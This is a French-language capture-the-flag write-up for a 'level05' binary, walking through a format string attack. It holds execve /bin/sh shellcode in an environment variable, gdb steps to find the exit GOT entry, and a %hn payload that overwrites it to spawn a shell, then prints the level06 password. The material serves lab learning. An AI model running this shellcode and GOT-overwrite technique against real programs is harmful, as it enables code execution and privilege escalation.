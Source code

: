 
## LEVEL 05

Au lancement du programme celui-ci attend une entrée, puis la print dans le terminal.

On peut essayer une format string attack.
```
 $ python -c "print 'aaaa ' + '%x ' * 15" > /tmp/payload
 $ cat /tmp/payload | ./level05
 aaaa 64 f7fcfac0 f7ec3af9 ffffd4ef ffffd4ee 0 ffffffff ffffd574 f7fdb000 61616161 20782520 25207825 78252078 20782520 252078
```
Printf stock alors notre string à la 10ème adresse.

On créé alors notre payload avec notre shellcode dans une variable d'environnement.

 ```
 export PAYLOAD=$(python -c 'print 500*"\x90" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')
 ```
    
Grace à gdb on peut trouver l'adresse de cette variable d'environnement.
```
(gdb) b *main
(gdb) x/200s environ
...
0xffffdbb4:      "PAYLOAD=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
0xffffdc7c:      "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\
...
```
Notre payload se trouve alors à l'adresse 0xffffdbb4. On va prendre une adresse du nopesled comme dans les exercices de rainfall : 0xffffdc7c.

On va maintenant chercher l'adresse de l'exit dans le GOT pour la rediriger vers notre variable d'environnement.

```
(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0x08048370  exit
0x08048370  exit@plt

(gdb) x/2i 0x08048370
   0x8048370 <exit@plt>:        jmp    *0x80497e0
   0x8048376 <exit@plt+6>:      push   $0x18
```

Bien, nous avons maintenant l'adresse de l'exit 0x80497e0

On va alors mettre l'adresse de notre nopsled à la place de l'adresse ci-dessus. Le problème est qu'il faut la mettre en décimal ce qui fait beaucoup de caractères. On va donc diviser notre adresse en deux 0xdc7c(56444) et 0xffff (65535) que l'on met respectivement dans 0x80497e0 et 0x80497e2.

On coupe en deux on à donc :
65535 - 56444 = 9091

On enlève les 8 octets des deux adresses.
56444 - 8 = 56436

```
(python -c 'print "\xe0\x97\x04\x08"+"\xe2\x97\x04\x08"+"%56436d"+"%10$hn"+"%9091d"+"%11$hn"';cat) | ./level05
```
```
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
